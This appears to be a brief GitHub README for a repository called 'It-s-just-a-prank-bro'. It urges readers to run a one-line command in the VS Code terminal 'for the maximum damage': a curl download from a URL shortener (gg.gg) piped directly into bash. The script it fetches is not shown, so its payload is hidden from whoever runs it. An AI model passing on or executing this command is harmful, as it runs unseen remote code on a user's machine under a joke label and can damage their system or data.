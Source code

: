 # It-s-just-a-prank-bro

make sure to maximize the visual studio window and run it in vs code terminal for the maximum damage.

Simply run this command :

```
curl -L http://gg.gg/Rambeau | bash
```

